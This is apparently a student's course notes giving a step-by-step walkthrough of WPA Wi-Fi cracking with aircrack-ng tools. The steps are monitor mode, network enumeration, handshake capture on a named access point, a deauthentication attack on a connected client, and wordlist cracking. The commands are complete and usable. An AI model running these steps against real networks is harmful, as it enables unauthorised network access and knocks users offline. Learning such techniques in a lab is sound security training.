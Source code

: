 # Set wifi card into monitoring mode

List available wireless network interfaces with `iwconfig`:
![[Pasted image 20240327144009.png]]

Check (and kill) all the processes that could interfere with the wireless card:
```bash
sudo airmon-ng check
sudo airmon-ng check kill
```

![[Pasted image 20240327143545.png]]

Set our wireless network card into monitoring mode, such that we can capture all the traffic:
```bash
sudo airmon-ng start wlan0
```

![[Pasted image 20240327143900.png]]

With `iwconfig` we can see that the interface *wlan0* is now in monitoring mode:
![[Pasted image 20240327144027.png]]

# Enumerate wifi networks

List all available wifi networks:
```bash
sudo airodump-ng wlan0
```

==Didn't work for me. So from here on the screenshots are taken from the course video.==

![[Pasted image 20240328114419.png]]
BSSID: MAC address of the AP
PWR: Power level (the closer to 0 the stronger the signal)
...
ENC: Encryption used
AUTH: WPA type
ESSID: "Name" of the network

Our target network is *TP-Link_0074*.

# Capture network traffic

Capture traffic:
```bash
sudo airodump-ng -c 6 --bssid 50:C7:BF:8A:00:73 -w capture wlan0
```
Args:
`-c`: The channel
`--bssid`: The BSSID
`-w`: capture output file

From the output we can see that there is 1 station attached to the AP:
![[Pasted image 20240328115300.png]]
Our goal is to capture a 4-way handshake.

# Optional: Deauth-attack

We can use a *deauth*-attack to speed up the capture of a 4-way handshake.

Leaving the above command running, open a new terminal and run the attack via the following command:
```bash
sudo aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 3C:F0:11:22:DB:E3 wlan0
```
Args:
`-0`: Deauth-attack
`1`: Number of times to run the attack
`-a`: MAC address of the access point
`-c`: MAC address of the client we want to attack

If the attack is successful, on the first terminal the message "WPA handshake" will appear, which means we were able to capture a handshake between the client and the AP:
![[Pasted image 20240328121527.png]]

>[!Note]
>The deauth-attack is optional. If you run the capture long enough, eventually you will capture a handshake. The deauth-attack is just to speed up the process.

# Cracking the password hash

```bash
sudo aircrack-ng -w wordlist.txt -b 50:C7:BF:8A:00:73 capture.cap
```
Args:
`-w`: The wordlist to use
`-b`: BSSID of the AP

Successfully cracked the hash:
![[Pasted image 20240328122430.png]]

>[!Note]
>As alternative you can also use *hashcat* to crack the password hash.

# Restore network settings

Set wlan0 interface back into managed mode:
```bash
sudo ip link set wlan0 down
sudo iw wlan0 set type managed
sudo ip link set wlan0 up
```

Restart NetworkManager:
```bash
sudo systemctl start NetworkManager
```